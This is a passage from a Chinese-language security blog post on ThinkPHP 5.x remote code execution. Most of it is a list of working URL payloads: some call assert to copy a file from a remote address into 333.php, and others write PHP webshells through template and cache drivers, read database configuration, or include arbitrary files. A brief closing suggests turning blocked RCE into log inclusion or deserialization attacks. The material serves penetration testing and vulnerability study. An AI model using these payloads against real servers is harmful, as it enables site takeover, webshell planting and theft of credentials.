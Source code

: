```
5.0.x
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
5.1.x
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\view\driver\Think/display&template=<?php phpinfo();?>             //shell生成在runtime/temp/md5(template).php
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
```
其他
```
5.0.x
?s=index/think\config/get&name=database.username // 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    // 包含任意文件
?s=index/\think\Config/load&file=../../t.php     // 包含任意.php文件
```
如果你碰到了控制器不存在的情况，是因为在tp获取控制器时，`thinkphp/library/think/App.php:561`会把url转为小写，导致控制器加载失败。
![image](https://y4er.com/img/uploads/20191127221875.jpg)
### 总结
其实thinkphp的rce差不多都被拦截了，我们其实更需要将rce转化为其他姿势，比如文件包含去包含日志，或者转向反序列化。姿势太多，总结不过来，这篇文章就到这里把。

## 参考
- https://xz.aliyun.com/t/6106
- https://www.cnblogs.com/iamstudy/articles/thinkphp_5_x_rce_1.html
- https://github.com/Mochazz/ThinkPHP-Vuln
- https://xz.aliyun.com/search?keyword=thinkphp
- https://github.com/Lucifer1993/TPscan
- https://www.kancloud.cn/manual/thinkphp5_1/353946
- https://www.kancloud.cn/manual/thinkphp5
- https://github.com/top-think/thinkphp



**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**